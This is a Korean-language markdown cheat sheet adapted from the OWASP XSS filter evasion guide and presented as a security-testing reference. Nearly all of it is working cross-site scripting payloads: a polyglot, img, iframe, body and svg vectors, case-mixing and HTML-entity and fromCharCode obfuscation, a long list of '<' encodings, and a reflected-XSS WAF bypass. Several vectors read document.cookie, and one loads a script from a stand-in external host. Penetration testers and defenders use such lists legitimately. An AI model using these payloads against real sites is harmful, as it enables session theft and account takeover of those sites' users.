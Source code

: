 ## XSS Filter Evasion Cheat Sheet

---

본문은 어플리케이션 보안 테스트 중 `Cross-Site Script`취약점에 대한 테스팅 가이드를 제공한다.

[XSS-Filter-Evasion-Cheatsheet](https://owasp.org/www-community/xss-filter-evasion-cheatsheet#)





## Basic XSS Test Without Filter Evasion

>아래 구문은 일반적인 `XSS` 자바스크립트 인젝션 구문이다, 또한 대부분이 막혀있으나 제일 먼저 이를 시도할것을 추천한다.
>
>cf) 모던웹에서는 따옴표를 쓰지 않아도 무방하다.
>
>```html
><script src=https:xxx.com></script>
>```





## XSS Locator (Polygot)

---

> 본 구문은 "polygot test XSS payload"내용이다.
>
> 해당 구문은 `html`, `script 문자열`, `javascript`, `url`등 다양한 컨텍스트에서 모두 사용될 수 있다.
>
> ```html
> javscript:/*--></title></style></textarea></sript></xmp>
> <svg/onload='+/"+/onmouseover=1/+/[*/[]/+alert(1)//'>
> ```



## Cheat Sheet

---

>```html
><!-- img 태그를 이용한 XSS -->
><img src="javascript:alert('XSS')">
>
><!-- Quotes & Semicolon을 쓰지 않는 XSS -->
><img src=javascript:alert('XSS')>
>
><!-- 대소문자 필터링 XSS Attack vector -->
><img src=JaVaScRiPt:alert('XSS')>
>
><!-- HTML 엔터티를 이용한 XSS -->
><img src=javascript:alert(&quot;XSS&quot;)> 
>
><!-- 약한 강조를 이용한 난독화 XSS -->
><img src=`javascript:alert('XSS')`>
>만일 쌍따옴표 또는 홑따옴표를 써야하는 경우에는 grave accent를 이용하여 자바스크립트 문자열을 인캡슐래이션 가능.
>-> 대부분의 XSS 필터들이 이걸 모르기 때문에 매우매우 유용함 
>
><!-- a 태그 변형 XSS -->
>\<a onmouseover="alert(document.cookie)"\>xxs link\</a\>
>`href` 특성을 skip하여 XXS실행 가능
>
><!-- img 태그 변형 XSS-->
><IMG """><SCRIPT>alert("XSS")</SCRIPT>"\>
>본 구문은 HTML태그 파싱을 매우 어렵게 만듬
>    
><!-- fromCharCode 응용 XSS-->
><IMG SRC=javascript:alert(String.fromCharCode(88,83,83))>
>어떠한 따옴표도 이용이 불가능한 경우, fromCharCode를 통해 문자열 생성 가능 -> document.cookie같은것.
>    
><!--SRC 도메인을 확인하는 필터를 통과하기 위한 기본 SRC 태그 -->
><IMG SRC=# onmouseover="alert('xxs')">
>본 구문은 대표적인 도메인 필터링을 우회할 수 있다. onmouseover 이벤트 대신 onblur, onclick과 같은 이벤트 또한 사용이 가능하다.
>    
><!-- 기본 SRC 비우기 -->
><IMG SRC= onmouseover="alert('xxs')">
>    
><!-- 의도적 에러 유발을 통한 XSS -->
><IMG SRC=/ onerror="alert(String.fromCharCode(88,83,83))"></img>
>
><!-- IMG 에러 & 경고창 띄우기 인코딩 버전 -->
><img src=x onerror="&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041">
>URL percent 인코딩을 적용한 공격구문 -> onerror=javascript:alert(1)
>    
><!-- HTML character encoding -->
><IMG SRC=&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;&#39;&#88;&#83;&#83;&#39;&#41;>
>    
><!-- Embedded Tab-->
><img src="jav	ascript:alert("XSS")" onerror=javascript:alert(1)>
>    
><!-- Extraneous Open brakets -->
><<SCRIPT>alert("XSS");//\<</SCRIPT>
>위 벡터는 첫번째 괄호와 마지막 괄호들을 필터링하는 무산시킨다.
>
><!-- End title tag -->
></TITLE><SCRIPT>alert("XSS");</SCRIPT>
>벡터는 타이틀 태그를 닫아 스크립트를 실행시키는 벡터이다.
>    
><!-- Body tag -->
><BODY ONLOAD=alert('XSS')>
>위 벡터는 javascript: , <script>...</script> 와 같은 요소를 필요로 하지 않는다.
>
><!-- Iframe tag -->
><IFRAME SRC="javascript:alert('XSS');"></IFRAME>
>Iframe 태그가 허용되면 수많은 XSS 벡터 시도가 가능하다.
>
><!-- Iframe Event based -->
><IFRAME SRC=# onmouseover="alert(document.cookie)"></IFRAME>
>Iframe 그리고 나머지 대부분의 엘리먼트들은 이벤트 기반의 공격시도가 가능하다.
>    
>
>```
>
>
>
>**문자열 필터링 우회 sequence**
>
>- 자바스크립트와 HTML 내 '<' 문자의 모든 가능한 조합이며 대체로 박스 밖에서 렌더링 되지만 특정상황에 따라 렌더링이 될 수도 있다.
>
>```html
><
>%3C
>&lt
>&lt;
>&LT
>&LT;
>&#60
>&#060
>&#0060
>&#00060
>&#000060
>&#0000060
>&#60;
>&#060;
>&#0060;
>&#00060;
>&#000060;
>&#0000060;
>&#x3c
>&#x03c
>&#x003c
>&#x0003c
>&#x00003c
>&#x000003c
>&#x3c;
>&#x03c;
>&#x003c;
>&#x0003c;
>&#x00003c;
>&#x000003c;
>&#X3c
>&#X03c
>&#X003c
>&#X0003c
>&#X00003c
>&#X000003c
>&#X3c;
>&#X03c;
>&#X003c;
>&#X0003c;
>&#X00003c;
>&#X000003c;
>&#x3C
>&#x03C
>&#x003C
>&#x0003C
>&#x00003C
>&#x000003C
>&#x3C;
>&#x03C;
>&#x003C;
>&#x0003C;
>&#x00003C;
>&#x000003C;
>&#X3C
>&#X03C
>&#X003C
>&#X0003C
>&#X00003C
>&#X000003C
>&#X3C;
>&#X03C;
>&#X003C;
>&#X0003C;
>&#X00003C;
>&#X000003C;
>\x3c
>\x3C
>\u003c
>\u003C
>```
>
>
>
>**WAF 우회 sheet**
>
>- Stored XSS
>
>  - 공격자가 필터를 통해 XSS 벡터를 밀어넣은 경우 WAF는 공격을 막을 수 없다.
>
>- Reflected XSS
>
>  ```html
>  Example: <script> ... setTimeout(\\"writetitle()\\",$\_GET\[xss\]) ... </script>
>  Exploitation: /?xss=500); alert(document.cookie);//
>  ```







```html
<svg><animate xlink:href=#xss attributeName=href dur=5s repeatCount=indefinite keytimes=0;0;1 values="https://portswigger.net?&semi;javascript:alert(1)&semi;0" /><a id=xss><text x=20 y=20>XSS</text></a>
```

